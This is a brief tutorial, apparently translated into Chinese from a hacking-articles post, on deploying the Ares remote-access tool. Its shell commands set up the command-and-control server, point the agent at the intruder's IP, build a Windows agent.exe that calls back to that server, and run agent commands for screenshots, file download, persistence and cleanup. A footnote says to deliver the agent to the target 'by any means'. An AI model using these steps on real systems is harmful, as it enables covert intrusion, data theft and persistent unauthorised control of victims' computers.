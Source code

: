 ## C2 : Ares

### Introduction [^1]

### Installation

```bash
git clone https://github.com/sweetsoftware/Ares.git
cd Ares
pip install -r requirements.txt
./wine_setup.sh
```

### Exploiting Target

```bash
cd agent/
nano config.py
# SERVER 变量有一个IP地址，将其更改为入侵者计算机的内部IP地址
```

`./builder.py -p Windows –server http://192.168.1.4:8080 -o agent.exe` [^2]

```bash
# 启动服务器和数据库
cd server/
./ares.py initdb
./ares.py runserver -h 0.0.0.0 -p 8080 --threaded
# 浏览器访问 http://0.0.0.0:8080
```

### Command Execution

`systeminfo`

### Capturing Screenshot

`screenshot`

### File Download

`download file.txt`

### Compressing Files

`zip compressed.zip sample`

### Persistence Agent

`persist`

### Clean Up

`clean`



[原文](https://www.hackingarticles.in/command-control-ares/)

---

[^1]: 此工具通过Web界面执行命令和控制，是一个Python远程访问工具。Ares由两个主程序组成：一个是命令和控制服务器，它是一个管理代理的Web界面；另一个是代理程序，它在受感染的主机上运行，确保之间的通信
[^2]: 创建一个Windows代理，并且通过任何方式将此代理发送到目标计算机